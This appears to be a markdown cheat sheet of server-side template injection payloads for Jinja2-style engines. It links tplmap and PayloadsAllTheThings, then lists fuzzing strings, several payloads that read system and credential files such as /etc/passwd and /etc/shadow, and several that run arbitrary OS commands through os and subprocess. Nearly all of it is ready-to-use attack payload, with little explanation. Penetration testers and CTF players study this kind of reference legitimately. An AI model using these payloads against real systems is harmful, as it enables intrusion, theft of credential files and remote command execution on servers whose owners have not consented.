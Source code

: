 - - -
💛️ Usefull Tools : [tplmap](https://github.com/epinna/tplmap)

💛️ Usefull Guides : [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)
- - -

### **Fuzzing SSTI** : 🪰️🕊️🕊️🕊️🕊️ 

```sh
{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

- - -
### **Reading system files** : 📂️ 📂️ 📂️

```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/shadow').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/hosts').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/services').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/hostname').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/resolv.conf').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/environment').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/crontab').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/group').read()}}
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/ssh/sshd_config').read()}}
```

- - -
 
### **SSTI 2 RCE** **:** 💀️💥️ 💥️ 💥️ 💀️

Before goinf for RCE, you should know the template engine's language..
Like - Python, php, java, groovy, etc.

**<u>Try This</u> :** 👇️👇️👇️👇️
```sh
{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}

{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('<command>')}}

{{''.__class__.__mro__[1].__subclasses__()[49].__init__.__globals__['__builtins__']['__import__']('subprocess').call('<command>', shell=True)}}

{{''.__class__.__mro__[1].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('<command>').read()}}

{{''.__class__.__mro__[1].__subclasses__()[49].__init__.__globals__['__builtins__']['__import__']('subprocess').check_output('<command>', shell=True)}}

{{''.__class__.__mro__[2].__subclasses__()[40]('/bin/bash').__call__('-c', '<command>')}}
```



